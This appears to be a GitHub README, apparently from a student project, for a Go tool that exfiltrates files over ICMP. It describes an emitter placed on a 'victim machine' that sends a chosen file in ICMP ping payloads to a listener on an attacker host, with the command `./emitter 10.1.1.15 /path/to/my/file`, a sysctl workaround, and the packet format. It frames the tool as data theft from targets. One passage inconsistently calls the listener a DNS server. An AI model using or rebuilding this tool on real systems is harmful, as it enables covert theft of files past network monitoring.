

# ICMP Extraction

The objective is to build an extractor using the ICMP protocol.
The emitter and listener are built with GO to allow compilation on almost any OS.

## Disclaimers
I had some issues running on some os like windows due to the protocol not being implemented. 
And when I tried to use is on debian based VM it didn't work until I ran `sudo sysctl -w net.ipv4.ping_group_range="0   2147483647"`

Sadly I noticed this to late and I couldn't solve it on time.

## Let's run it !
The emitter executable needs to be sent to the target machine. It doesn't matter how.

Run the listener with `./listener`. It requires `sudo` privileges. 

Run the emitter on the victim machine and specify the ip of the listener as first argument and the file to extract as the second. 
(ex: `./emitter 10.1.1.15 /path/to/my/file`)

On debian based system, you might run into an issue, sadly I noticed it to late and couldn't solve it but as a workaround, 
you can execute the command `sudo sysctl -w net.ipv4.ping_group_range="0   2147483647"` on the machine

Then you should see logs arrive in the listener process. When it says `Recieved File`, the file has been received. 
That's mean that the file has been completely extracted and is now located in the `results` directory with a `.raw` 
(warning, if the listener was ran with administrator privileges, you will need to change the access on the file !).

## How it works

### The emitter

The emitter installed of the victim machine will send repetitive requests to the host machine using the ICMP protocol.
Each request will have the following format :

The header is a classical ICMP message header but the data is customised.
It is split into 3 sections.

1. The identifier of the file in 4 bytes. The identifier is generated to favor uniqueness
2. The request index. There is no delay between each request so to ensure the order, we add an index to each message
3. The payload. The par t of the file which is sent in this message.

Whe the whole file is sent, a stop message is sent with the same id as the package, 0 as the request index
and `###STOP###` (encoded in binary) as the payload.

### The listener

The listener is simply a DNS server that knows no records. For non Stop message, it save the file in the `results` directory. It keeps
one file per request.
Whe the stop request is received. All the files are read and concatenate into a single file that will be located in
the `results` directory.

*Theoretically*, any number of file can be received at the same time as long as they can be handled by the listener.

